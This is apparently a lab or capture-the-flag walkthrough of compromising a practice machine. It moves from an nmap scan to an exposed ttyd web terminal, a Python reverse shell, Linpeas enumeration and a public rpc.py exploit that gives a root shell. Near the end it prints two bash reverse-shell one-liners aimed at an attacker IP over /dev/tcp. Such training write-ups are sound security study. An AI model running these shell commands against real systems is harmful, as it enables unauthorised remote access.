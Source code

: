 `nmap -A -T4 -p- 192.168.152.210`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 62:36:1a:5c:d3:e3:7b:e1:70:f8:a3:b3:1c:4c:24:38 (RSA)
|   256 ee:25:fc:23:66:05:c0:c1:ec:47:c6:bb:00:c7:4f:53 (ECDSA)
|_  256 83:5c:51:ac:32:e5:3a:21:7c:f6:c2:cd:93:68:58:d8 (ED25519)
8000/tcp open  http    ttyd 1.7.3-a2312cb (libwebsockets 3.2.0)
|_http-title: ttyd - Terminal
|_http-server-header: ttyd/1.7.3-a2312cb (libwebsockets/3.2.0)
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So not much off of the initial scans but we are given a terminal web page

![](Images/Pasted%20image%2020250507203756.png)

Lets see if we can do anything with this. We can most certainly transfer files using curl or wget as they are available.

![](Images/Pasted%20image%2020250507203842.png)

We have python available so we can easily establish a standard shell. We can manually just paste a rev shell python payload or transfer it over. I will setup a listener and hopefully catch a shell.

![](Images/Pasted%20image%2020250507204058.png)

It hangs which is a good sign.

![](Images/Pasted%20image%2020250507204115.png)

We have to do this as Offsec does not count webshells. As there is no local flag I will jump straight into post exploitation enumeration. I will start off with a Linpeas scan as it will cover a lot of the bases.


Skimming through the output we have a critical potential escalation

![](Images/Pasted%20image%2020250507204644.png)

I also found pkexec has sudo SUID, so lets see where we can go with this.

![](Images/Pasted%20image%2020250507204813.png)

I've never seen this escalation path, so looking into it appears pkexec allows us to execute binaries as sudo. It looks like a pretty complex chain so lets check for other low hanging fruit before attempting that.

Checking the opt folder it appears we have a script that isn't standard.

![](Images/Pasted%20image%2020250507205501.png)

This appears like a good thing to investigate as its being run by root

![](Images/Pasted%20image%2020250507205543.png)

Unsure what the file is really doing but anything being run by root can be dangerous. Lets see if google has more information about it.

![](Images/Pasted%20image%2020250507205629.png)

After searching that I found [this](https://github.com/ehtec/rpcpy-exploit)lets download the POC and see if we can use it to get execution to a root shell. I believe I can confirm this is the proper path as the internal port is open.

![](Images/Pasted%20image%2020250507210222.png)

Lets change the command in the POC to establish a new shell.

```
bash -i >& /dev/tcp/192.168.45.244/22 0>&1
```

![](Images/Pasted%20image%2020250507211032.png)

It didn't appear to get proper execution so lets try again

```
'bash -c "bash -i >& /dev/tcp/192.168.45.244/22 0>&1"'
```

![](Images/Pasted%20image%2020250507211158.png)

Great success!

![](Images/Pasted%20image%2020250507211219.png)













